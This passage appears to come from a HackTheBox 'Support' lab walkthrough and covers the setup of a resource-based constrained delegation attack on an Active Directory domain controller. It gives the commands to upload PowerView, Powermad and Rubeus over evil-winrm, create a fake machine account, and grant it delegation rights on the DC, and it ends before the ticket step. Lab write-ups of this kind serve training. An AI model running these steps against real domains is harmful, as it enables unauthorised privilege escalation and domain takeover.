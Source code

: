 We need to verify that msds-allowedtoactonbehalfofotheridentity attribute is empty. We need to upload PowerView.ps1 to the victim using evil-winrm.

Find it:

```bash
find / 2>/dev/null | grep PowerView.ps1
```

Copy it to directory in where you open evil-winrm session:

```bash
cp /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 ~/HTB/Support/PowerView.ps1
```

Upload it to the victim using our evil-winrm session:

```bash
upload PowerView.ps1
```

Upload Powermad.ps1 as well from [here](https://github.com/Kevin-Robertson/Powermad) and Upload Rabeus.exe:


Now in the victim's machine:

```powershell
Import-Module .\Powermad.ps1
```

![alt text](image-2.png)

Now we see that we can create new computers since our machineaccountquota is 10.

### Creating Fake Machine
```powershell
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
```

**creds**:
```plaintext
FAKE-COMP01:Password123
```

Now we configure the Resource-Based Constrained Delegation:

```powershell
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
```

Verify it:

```powershell
Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount
Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity
```
